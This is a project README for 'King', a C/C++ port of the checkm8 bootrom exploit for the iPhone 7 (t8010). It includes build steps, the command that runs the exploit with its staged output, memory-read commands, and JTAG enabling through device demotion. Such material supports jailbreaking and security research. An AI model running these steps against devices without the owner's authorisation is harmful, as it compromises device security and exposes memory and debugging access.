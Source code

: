 # King

Port of axi0mX's check-m8 exploit (<https://github.com/axi0mX/ipwndfu>) to C/C++

It works fine on Ubuntu 19.10 and compiles on Windows.

So far I only ported the t8010(iBoot-2696.0.0.1.33) exploit which is working fine on my iPhone 7


# Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

# Run check-m8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

# Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

# Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

# Limitations

I only ported the t8010 exploit and so far it fails on Windows (WIP!)
